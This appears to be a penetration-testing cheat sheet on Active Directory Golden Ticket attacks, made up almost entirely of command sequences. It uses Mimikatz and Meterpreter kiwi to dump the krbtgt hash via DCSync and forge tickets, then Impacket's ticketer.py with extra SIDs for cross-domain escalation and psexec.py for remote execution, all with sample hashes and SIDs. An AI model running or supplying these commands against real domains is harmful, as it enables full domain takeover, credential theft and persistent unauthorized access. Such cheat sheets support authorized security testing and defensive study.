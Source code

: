 #### Using Mimikatz

```powershell
# Get info - Mimikatz
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt

# Forge a Golden ticket - Mimikatz
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

#### Using Meterpreter 

```powershell
# Get info - Meterpreter(kiwi)
dcsync_ntlm krbtgt
dcsync krbtgt

# Forge a Golden ticket - Meterpreter
load kiwi
golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
kerberos_ticket_purge
kerberos_ticket_use /root/Downloads/pentestlabuser.tck
kerberos_ticket_list
```

#### Using a ticket on Linux

```powershell
# Convert the ticket kirbi to ccache with kekeo
misc::convert ccache ticket.kirbi

# Alternatively you can use ticketer from Impacket
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da

ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519
./ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519

export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME

# NOTE: You may need to comment the proxy_dns setting in the proxychains configuration file
./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```
